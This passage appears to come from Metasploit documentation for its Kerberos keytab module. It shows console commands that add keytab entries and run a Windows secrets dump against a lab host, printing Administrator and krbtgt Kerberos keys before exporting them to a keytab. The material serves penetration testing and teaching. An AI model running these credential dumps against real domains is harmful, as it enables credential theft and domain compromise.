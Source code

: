 Adding entries using a specified password:

```msf
msf auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=Administrator realm=DEMO.LOCAL enctype=ALL password=p4$$w0rd

[*] modifying existing keytab
[*] Generating key with salt: DEMO.LOCALAdministrator. The SALT option can be set manually
[+] keytab entry added to ./example.keytab
```

### Export

Export Kerberos encryption keys stored in the Metasploit database to a keytab file. This functionality is useful in conjunction with secrets dump

```msf
# Secrets dump
msf > use auxiliary/gather/windows_secrets_dump
msf auxiliary(gather/windows_secrets_dump) > run smbuser=Administrator smbpass=p4$$w0rd rhosts=192.168.123.13
... omitted ...
# Kerberos keys:
Administrator:aes256-cts-hmac-sha1-96:56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01
Administrator:aes128-cts-hmac-sha1-96:df990c21c4e8ea502efbbca3aae435ea
Administrator:des-cbc-md5:ad49d9d92f5da170
Administrator:des-cbc-crc:ad49d9d92f5da170
krbtgt:aes256-cts-hmac-sha1-96:e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c
krbtgt:aes128-cts-hmac-sha1-96:ba87b2bc064673da39f40d37f9daa9da
krbtgt:des-cbc-md5:3ddf2f627c4cbcdc
... omitted ...
[*] Auxiliary module execution completed

# Export to keytab
msf auxiliary(gather/windows_secrets_dump) > use admin/kerberos/keytab
msf auxiliary(admin/kerberos/keytab) > run action=EXPORT keytab_file=./example.keytab
[+] keytab saved to ./example.keytab
Keytab entries
==============

 kvno  type              principal                                   hash                                                              date
 ----  ----              ---------                                   ----                                                              ----
 1     1  (DES_CBC_CRC)  WIN11-DC3$@adf3.local                       3e5d83fe4594f261                                                  1970-01-01 01:00:00 +0100
 1     17 (AES128)       ADF3\DC3$@adf3.local                        967ccd1ffb9bff7900464b6ea383ee5b                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  ADF3\DC3$@adf3.local                        62336164643537303830373630643133                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       Administrator@adf3.local                    56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100
 1     17 (AES128)       Administrator@adf3.local                    df990c21c4e8ea502efbbca3aae435ea                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     1  (DES_CBC_CRC)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       krbtgt@adf3.local                           e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c  1970-01-01 01:00:00 +0100
 1     17 (AES128)       krbtgt@adf3.local                           ba87b2bc064673da39f40d37f9daa9da                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  krbtgt@adf3.local                           3ddf2f627c4cbcdc                                                  1970-01-01 01:00:00 +0100
```
